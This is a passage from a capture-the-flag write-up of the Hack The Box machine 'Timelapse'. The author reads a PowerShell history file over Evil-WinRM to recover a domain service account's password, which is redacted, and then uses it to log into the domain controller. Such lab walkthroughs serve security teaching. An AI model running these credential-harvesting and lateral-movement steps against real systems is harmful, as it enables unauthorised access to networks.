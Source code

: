 **Domain user `svc_deploy` details:**
```shell
*Evil-WinRM* PS C:\Users\legacyy\Documents> net user svc_deploy /domain
User name                    svc_deploy
Full Name                    svc_deploy
[...]
Local Group Memberships      *Remote Management Use
Global Group memberships     *LAPS_Readers         *Domain Users
```

And this domain user is a member of `Remote Management User` local group! Which means **this domain user can WinRM into the Domain Controller**!

**After enumerate the Domain Controller deeper, I found an interesting PowerShell history file:**
```shell
*Evil-WinRM* PS C:\Users\legacyy\Documents> type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString '{Redacted}' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

Nice! We found `svc_deploy`'s password!

**Let's WinRM as `svc_deploy`!**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Timelapse)-[2023.08.09|18:07:48(HKT)]
└> evil-winrm -S -i $RHOSTS -u svc_deploy -p '{Redacted}'
[...]                  
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> whoami; ipconfig /all
timelapse\svc_deploy

Windows IP Configuration

   Host Name . . . . . . . . . . . . : dc01
   Primary Dns Suffix  . . . . . . . : timelapse.htb
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : timelapse.htb

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   Description . . . . . . . . . . . : vmxnet3 Ethernet Adapter
   Physical Address. . . . . . . . . : 00-50-56-B9-7B-4A
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   Link-local IPv6 Address . . . . . : fe80::4113:1f9:543d:6321%13(Preferred)
   IPv4 Address. . . . . . . . . . . : 10.10.11.152(Preferred)
   Subnet Mask . . . . . . . . . . . : 255.255.254.0
   Default Gateway . . . . . . . . . : 10.10.10.2
   DHCPv6 IAID . . . . . . . . . . . : 33574998
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-2C-65-68-F0-00-50-56-B9-7B-4A
   DNS Servers . . . . . . . . . . . : 127.0.0.1
[...]
```
